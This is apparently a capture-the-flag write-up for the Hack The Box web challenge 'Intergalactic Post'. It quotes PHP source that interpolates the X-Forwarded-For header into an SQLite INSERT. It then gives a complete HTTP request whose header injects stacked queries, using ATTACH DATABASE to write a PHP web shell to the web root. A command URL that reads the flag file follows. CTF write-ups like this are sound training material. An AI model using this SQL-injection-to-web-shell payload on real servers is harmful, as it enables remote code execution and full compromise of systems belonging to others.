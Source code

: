 # Intergalactic Post

```
The biggest intergalactic newsletter agency has constantly been spreading misinformation about the energy crisis war. Bonnie's sources confirmed a hostile takeover of the agency took place a few months back, and we suspect the Golden Fang army is behind this. Ulysses found us a potential access point to their agency servers. Can you hack their newsletter subscribe portal and get us entry?
```

examinging the source of the challenge we find unsafe string interpolation leading to SQL injection

```php

# Database.php
...
    public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
...
```

but $email is filtered

```php
# SubsController.php
...
        if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
            header('Location: /?success=false&msg=Please submit a valild email address!');
            exit;
        }
...
```

so let's injected via $ip_adress. We can control the value with HTTP Headers

```php
...
# SubscriberModel.php
    public function getSubscriberIP(){
        if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
            return  $_SERVER["HTTP_X_FORWARDED_FOR"];
        }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
            return $_SERVER["REMOTE_ADDR"];
        }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
            return $_SERVER["HTTP_CLIENT_IP"];
        }
        return '';
    }
...
```

we know the db is sqlite, so let's research on some payloads.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database

Thos has good potential, because we have a php webserver

```
POST /subscribe HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://localhost:1337
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
X-Forwarded-For: 127.0.0.1',+'test');ATTACH DATABASE '/www/t.php' AS t;CREATE TABLE t.pwn (dataz text);INSERT INTO t.pwn (dataz) VALUES('<?php system($_GET["cmd"]); ?>')--
Sec-Fetch-User: ?1

email=test%40test.com
```

now navigate to our created webshell for RCE!

http://157.245.33.77:30496/t.php?cmd=cat%20/flag*

HTB{inj3ct3d_th3_tru7h}